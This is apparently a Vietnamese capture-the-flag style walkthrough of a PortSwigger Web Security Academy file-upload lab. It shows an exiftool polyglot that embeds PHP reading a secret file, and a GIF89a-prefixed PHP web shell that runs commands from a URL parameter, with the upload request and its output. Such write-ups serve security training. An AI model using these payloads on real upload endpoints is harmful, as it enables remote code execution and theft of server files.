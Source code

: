 Thành phần:
- **exiftool:** công cụ để chỉnh sửa **metadata** của file ảnh **(JPEG, PNG, …)**
- **-Comment="...":** chèn chuỗi này vào trường **comment** trong **metadata** của ảnh.
- **<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>**: là mã PHP dùng để đọc file **secret** của Carlos, rồi in ra theo định dạng `START ... END`
- **input.jpg:** ảnh JPEG ban đầu dùng làm nền (ảnh bất kỳ, không cần đặc biệt)
- **-o polyglot.php:** tên file output, đuôi .php để lừa server xử lý file như một script PHP

Upload `polyglot.php` và đọc nó
```
�PNG  IHDR�~#U�JcICP �i;2sRGB���StEXtCommentSTART cSwTovLDzGP7ofwcQzgXVE9gEB0JcF0a ENDԴ`P IDATx
```

Nguyên lý hoạt động:
- Server chấp nhận loại file dựa trên **file signature**
- **exiftool** thêm **code PHP** vào trường **comment** trong **metadata** của ảnh và đặt tên file `.php` để **mod-php** xử lý
- Khi xử lý file `.php`, chỉ cần xuất hiện <?php ... ?> thì mã sẽ được thực thi

#### Idea 2: Change **(file signature**/**magic bytes)** of PHP file
- Upload `evil.php` và gửi nó đến **repeater**
- Thêm **(file signature**/**magic bytes)** và gửi lại request

```http
POST /my-account/avatar HTTP/2
Host: 0ad20004039c6fc4808495c80073008d.web-security-academy.net
...
Content-Disposition: form-data; name="avatar"; filename="evil.php"
Content-Type: application/x-php

GIF89a
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
...
```

- Mở file `evil.php` ở tab mới và khai thác
```
https://0ad20004039c6fc4808495c80073008d.web-security-academy.net/files/avatars/evil.php?cmd=cat%20/home/carlos/secret
```

Result:
```
GIF89a cSwTovLDzGP7ofwcQzgXVE9gEB0JcF0a
```

Nguyên lý hoạt động:
- Server chấp nhận loại file dựa trên **file signature**
- Thay đổi **file signature** của file **PHP** để server chấp nhận nó
- Khi xử lý file `.php`, chỉ cần xuất hiện <?php ... ?> thì mã sẽ được thực thi

---
Goodluck! 🍀🍀🍀